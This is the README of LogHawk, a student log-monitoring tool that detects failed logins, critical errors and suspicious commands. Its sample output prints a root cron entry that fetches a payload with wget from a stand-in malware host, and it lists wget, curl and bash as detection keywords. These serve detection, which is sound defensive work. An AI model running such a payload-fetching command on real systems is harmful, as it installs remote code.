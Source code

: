 
# 🦅 LogHawk

LogHawk is a lightweight, open-source log monitoring tool built in both Python and Bash. It automates the detection of suspicious activity in system and web logs, helping security teams identify threats like brute-force attacks, critical errors, and malicious scripts before they become incidents. It scans system and application logs for:

- 🛑 Failed login attempts
- ⚠️ Unusual traffic spikes
- 🔥 Critical system errors
- 🦠 Suspicious script activity


## ⚙️ Installation
Before using LogHawk, make sure you have Python 3 installed. You can install it by running: 

```bash
sudo apt-get install python3
```
Clone the repo and make scripts executable:
```bash
git clone https://github.com/Lintageorge7/LogHawk.git
cd LogHawk
chmod +x loghawk.sh
chmod +x loghawk.py
```
## 🐍 Usage (Python)

```bash
python3 loghawk.py Sample_logs/auth.log
```

## 📤 Example Output
```bash
[🔐] Detecting failed logins...
⚠️  6 failed login attempts from 192.168.1.101
[🌐] Detecting traffic spikes...
[🔥] Detecting system errors...
❗ Jul 14 08:14:30 systemd[1]: ERROR - Disk full
❗ Jul 14 08:14:45 app[1001]: CRITICAL - Kernel panic
[🦠] Detecting suspicious script activity...
🚩 Suspicious: Jul 14 08:14:01 cron[5678]: (root) CMD (wget http://malware.site/payload.sh)
```

## 💻 Usage (Bash)
```bash
./loghawk.sh Sample_logs/system.log
```

## 📸 Sample Output Screenshot

[screenshots/sample_bashoutput.png](https://github.com/Lintageorge7/LogHawk/blob/84d22923e3ce9c1e7a784bde5d43baba02d11bb3/screenshots/sample_bashoutput.png)

[screenshots/sample_output.png](https://github.com/Lintageorge7/LogHawk/blob/440c080892cf81e7c78bf9436885271717ce1739/screenshots/sample_output.png)

## 🧠 Threats Detected
LogHawk currently detects:

 • 🔐 Failed Login Attempts — Flags 5+ failed logins per IP (MITRE T1110)

 • 🔥 Critical System Errors — Catches “ERROR” and “CRITICAL” entries in logs

 • 🦠 Suspicious Script Activity — Identifies malicious command use (wget, curl, bash)

 • 🌐 Traffic Spikes — High request volume from single IPs (future iteration)

All detections act as potential Indicators of Compromise (IoCs).

## ⏱️ Automation Setup

### 🐧 Linux (Cron)
Run every 10 minutes:
```bash
crontab -e
*/10 * * * * /home/student/LogHawk/loghawk.sh /var/log/auth.log
```

## 🪟 Windows: Task Scheduler

To schedule LogHawk on Windows:

1. Open Task Scheduler → Create Basic Task

2. Trigger: Every 10 minutes

3. Action: Start a program
    
 •  Program: python

 •  Arguments: C:\path\to\loghawk.py C:\logs\auth.log

## 📂 Project Structure

```bash
LogHawk/

├── loghawk.py        # Python version
├── loghawk.sh        # Bash version
├── sample_logs/      # Test log files
├── screenshots/      # Images for report/README
├── README.md         # This file
└── LogHawk_Report.md # Final report (optional: .pdf)
```

## 🧪 Sample Logs

Sample logs are located in the sample_logs/ folder for testing:

• auth.log

• access.log

• system.log


## 🔄 Future Improvements
 
 • Email/SMS alerting

 • Log filtering thresholds

 • JSON/CSV export

 • Web UI dashboard

 • Integration with ELK or Splunk

## 📚 References

 • MITRE ATT&CK: https://attack.mitre.org/ 

 • NIST Log Management Guidelines: https://csrc.nist.gov/publications 

 • Red Hat: Log Files and Monitoring: https://access.redhat.com 

## 🤝 Contributing
Pull requests are welcome. If you have improvements or new detection rules, feel free to contribute!

## 📄 License
This project is licensed under the MIT License.

## 👩‍💻 Author
Linta Susan George
Cybersecurity Student @ Lighthouse Labs | 🇨🇦
